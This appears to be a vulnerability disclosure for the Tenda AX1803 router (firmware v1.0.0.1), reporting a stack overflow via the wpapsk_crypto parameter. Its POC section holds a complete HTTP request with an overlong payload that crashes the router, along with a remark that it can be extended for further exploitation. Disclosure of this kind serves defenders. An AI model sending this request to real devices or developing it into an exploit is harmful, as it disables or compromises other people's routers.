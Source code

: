 # Tenda AX1803 v1.0.0.1 contains a stack overflow via the wpapsk_crypto parameter in the function fromSetWirelessRepeat

## Firmware infomation

- Manufacturer's address：https://www.tenda.com.cn/
- Affected firmware infomation：https://www.tenda.com.cn/download/detail-3421.html
- Affected firmware version：v1.0.0.1

<img src="img/0.png" style="zoom:80%;" />

## Vulnerability Description

Tenda AX1803 v1.0.0.1 contains a stack overflow via the wpapsk_crypto parameter in the function fromSetWirelessRepeat.

![](img/9.png)

![](img/10.png)

![](img/11.png)

## POC

```
POST /goform/WifiExtraSet HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: password=002a77b3f3cdec7e900d0be9a911fb6bakmtgb
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 351

wifi_chkHz=0&wl_mode=wisp&security=wpapsk&wpapsk_type=wpa&wpapsk_key=aaaaaaaaaaa&wpapsk_crypto=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

![](img/22.png)

The router will crash after sending the poc, and you may modify this for further exploiting.